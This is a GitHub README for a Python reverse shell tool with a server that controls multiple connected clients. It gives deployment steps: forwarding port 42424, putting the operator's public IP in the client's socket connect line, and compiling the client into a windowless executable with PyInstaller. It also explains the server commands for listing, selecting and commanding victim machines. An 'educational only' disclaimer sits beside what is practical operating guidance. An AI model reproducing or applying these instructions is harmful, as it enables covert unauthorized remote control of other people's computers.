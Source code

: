 ![](http://myspecialsite.host20.uk/Icon%20image.png)
***
# Overview
This is a hacking tool to get a reverse shell.

This is tool is for educational purpose only!

The responsibility on every use of this tool is on the user only!

Disclaimer: This reverse shell should only be used in the lawful, remote administration of authorized systems. Accessing a computer network without authorization or permission is illegal. 
***
## Installation 
Type in the command line `pip install -r requirements.txt` to install all required modules
***
## How to use
Make sure that you have port forwading on port 42424 (you can change it if you want) to your computer.
Also make sure that you enable the port on your local firewall (inbound and outbound)
***
## Client
Make sure that you have you public IP address there on `s.connect((%PUBLIC IP ADDRESS%, 42424))`
***
## Convert client.py to .exe
Type in the terminal `pyinstaller -w --onefile "Multiple Clients/client.py"`.
Then you can delete the .spec file and the build folder.
The exe will be in "dist" folder.
 ***
## Using the tool
Start **server.py** using the following command:
`python3 server.py`
and wait for connection.

To see of all your connections type `snake> list` in the interacive prompt.

To send commands to one of your connections type `select` and the ID number of the connection.

E.X.:

`snake> select 0`

When you are in the reverse shell of one of your connection, you can type `getos` to see what OS is running on your connection machine.

To get a list of all the commands of the interactive prompt and other special commands, type `help` in the interactive prompt.

If you want to quit from your connection, type `quit` and then you'll be back in the interactive prompt.

If you want to quit from the entire program type `shutdown` in the interactive prompt.
***
## Collaboration
If you want to collaborate with me about this project or about any other project, contect me on **ofer026@gmail.com**
